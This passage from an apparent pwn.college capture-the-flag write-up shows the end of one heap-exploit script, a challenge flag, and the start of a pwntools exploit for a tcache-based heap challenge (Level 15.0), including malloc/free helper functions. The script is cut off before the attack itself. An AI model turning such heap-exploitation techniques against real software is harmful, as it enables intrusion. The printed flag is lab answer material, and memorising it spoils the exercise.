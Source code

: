 ```python
    scanf(0, payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{89yuVXIylEt3d84DgpKZsDAT2ew.0FO5MDL5cTNxgzW}`]

# Level 15.0

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to obtain the flag.

## Write-up

UAF 被 ban 又怎样？照样拿捏。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level15.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())
```